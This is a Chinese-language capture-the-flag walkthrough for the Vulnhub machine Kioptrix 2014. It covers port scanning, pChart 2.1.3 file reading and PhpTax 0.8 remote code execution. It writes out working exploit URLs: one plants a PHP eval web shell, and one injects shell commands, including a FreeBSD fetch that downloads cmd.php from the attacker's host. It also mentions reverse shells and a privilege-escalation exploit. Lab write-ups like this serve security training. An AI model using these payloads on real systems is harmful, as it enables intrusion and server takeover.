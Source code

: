 ```yaml
---
title: Vulnhub 62 KIOPTRIX-2014 
date: 2014-04-06
---
```


考点： user-agent,rce,lfi

靶机链接：<https://www.vulnhub.com/entry/kioptrix-2014-5,62/>
<!--more-->

## 环境配置

| 名称         | IP        |
| ------------ | --------- |
| Kali Linux   | 192.168.88.135 |
| KIOPTRIX: 2014 (#5) | 192.168.88.148 |

## 初步打点

### 端口扫描

```bash
$ export rip=192.168.88.148
$ sudo nmap -v -A -p- $rip
PORT     STATE  SERVICE VERSION
22/tcp   closed ssh
80/tcp   open   http    Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
|_http-server-header: Apache/2.2.21 (FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8
| http-methods: 
|_  Supported Methods: POST
8080/tcp open   http    Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
|_http-server-header: Apache/2.2.21 (FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8
|_http-title: 403 Forbidden
```

### WEB测试

#### 80

![](https://www.vulnhub.cn/walkthrough/62/1.webp)



![](https://www.vulnhub.cn/walkthrough/62/2.webp)

##### pChart2.1.3

参考 [Exploiting pChart 2.1.3 (Directory traversal & XSS) ](https://vk9-sec.com/exploiting-pchart-2-1-3-directory-traversal-xss/)

任意文件读取

![](https://www.vulnhub.cn/walkthrough/62/3.webp)

读取apache配置

![](https://www.vulnhub.cn/walkthrough/62/4.webp)

#### 8080

firefox添加扩展，自定义user-agent

![](https://www.vulnhub.cn/walkthrough/62/5.webp)

![](https://www.vulnhub.cn/walkthrough/62/6.webp)

发现phptax

## 获得权限

### 思路一

参考 [PhpTax 0.8 - File Manipulation 'newvalue' / Remote Code Execution](https://www.exploit-db.com/exploits/25849)

```
http://192.168.88.148:8080/phptax/index.php?field=123.php&newvalue=<?php eval($_REQUEST[123])?>
```

![](https://www.vulnhub.cn/walkthrough/62/10.webp)

![](https://www.vulnhub.cn/walkthrough/62/11.webp)

### 思路二

参考 [phptax 0.8 - Remote Code Execution](https://www.exploit-db.com/exploits/21665)

```http
http://192.168.88.148:8080/phptax/index.php?pfilez=1040pg1.tob;%20ps%20-aux%3E/tmp/1;&pdf=make
```

然后利用pChart2.1.3的任意文件读取查看执行结果

![](https://www.vulnhub.cn/walkthrough/62/7.webp)

尝试nc反弹失败

![](https://www.vulnhub.cn/walkthrough/62/8.webp)

![](https://www.vulnhub.cn/walkthrough/62/9.webp)

nc是残版

尝试wget、curl均执行失败，使用[fetch](https://man.freebsd.org/cgi/man.cgi?fetch)下载文件成功

```http
http://192.168.88.148:8080/phptax/index.php?pfilez=1040pg1.tob;%20%20fetch%20http://192.168.88.135/cmd.php%3E%20/tmp/1;&pdf=make
```

![](https://www.vulnhub.cn/walkthrough/62/12.webp)

## 提权

上传phpspy.php

![](https://www.vulnhub.cn/walkthrough/62/13.webp)

反弹shell

参考 [FreeBSD 9.0 < 9.1 - 'mmap/ptrace' Local Privilege Escalation](https://www.exploit-db.com/exploits/26368)

![](https://www.vulnhub.cn/walkthrough/62/14.webp)
